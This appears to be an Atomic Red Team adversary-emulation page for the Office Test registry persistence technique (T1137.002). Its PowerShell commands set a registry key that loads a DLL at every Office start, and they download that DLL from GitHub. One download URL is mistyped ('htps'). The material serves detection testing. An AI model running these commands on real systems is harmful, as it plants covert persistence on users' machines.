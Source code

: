 # T1137.002 - Office Application Startup: Office Test
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1137/002)
<blockquote>Adversaries may abuse the Microsoft Office "Office Test" Registry key to obtain persistence on a compromised system. An Office Test Registry location exists that allows a user to specify an arbitrary DLL that will be executed every time an Office application is started. This Registry key is thought to be used by Microsoft to load DLLs for testing and debugging purposes while developing Office applications. This Registry key is not created by default during an Office installation.(Citation: Hexacorn Office Test)(Citation: Palo Alto Office Test Sofacy)

There exist user and global Registry keys for the Office Test feature, such as:

* <code>HKEY_CURRENT_USER\Software\Microsoft\Office test\Special\Perf</code>
* <code>HKEY_LOCAL_MACHINE\Software\Microsoft\Office test\Special\Perf</code>

Adversaries may add this Registry key and specify a malicious DLL that will be executed whenever an Office application, such as Word or Excel, is started.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Office Application Startup Test Persistence (HKCU)](#atomic-test-1---office-application-startup-test-persistence-hkcu)


<br/>

## Atomic Test #1 - Office Application Startup Test Persistence (HKCU)
Office Test Registry location exists that allows a user to specify an arbitrary DLL that will be executed every time an Office
application is started. Key is used for debugging purposes. Not created by default & exist in HKCU & HKLM hives.

**Supported Platforms:** Windows


**auto_generated_guid:** c3e35b58-fe1c-480b-b540-7600fb612563






#### Attack Commands: Run with `powershell`! 


```powershell
$wdApp = New-Object -COMObject "Word.Application"
if(-not $wdApp.path.contains("Program Files (x86)"))  
{
  Write-Host "64-bit Office"
  reg add "HKEY_CURRENT_USER\Software\Microsoft\Office test\Special\Perf" /t REG_SZ /d "PathToAtomicsFolder\T1137.002\bin\officetest_x64.dll" /f       
}
else{
  Write-Host "32-bit Office"
  reg add "HKEY_CURRENT_USER\Software\Microsoft\Office test\Special\Perf" /t REG_SZ /d "PathToAtomicsFolder\T1137.002\bin\officetest_x86.dll" /f
}
Stop-Process -Name "WinWord" 
Start-Process "WinWord"
```

#### Cleanup Commands:
```powershell
Stop-Process -Name "notepad","WinWord" -ErrorAction Ignore
Remove-Item "HKCU:\Software\Microsoft\Office test\Special\Perf" -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Microsoft Word must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "Word.Application" | Out-Null
  Stop-Process -Name "winword"
  exit 0
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft Word manually to meet this requirement"
```
##### Description: DLL files must exist on disk at specified location
##### Check Prereq Commands:
```powershell
if ((Test-Path "PathToAtomicsFolder\T1137.002\bin\officetest_x64.dll") -and (Test-Path "PathToAtomicsFolder\T1137.002\bin\officetest_x86.dll")) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\T1137.002\bin\" -Force | Out-Null
Invoke-Webrequest -Uri "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1137.002/bin/officetest_x64.dll" -UseBasicParsing -OutFile "PathToAtomicsFolder\T1137.002\bin\officetest_x64.dll"
Invoke-Webrequest -Uri "htps://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1137.002/bin/officetest_x86.dll" -UseBasicParsing -OutFile "PathToAtomicsFolder\T1137.002\bin\officetest_x86.dll"
```




<br/>
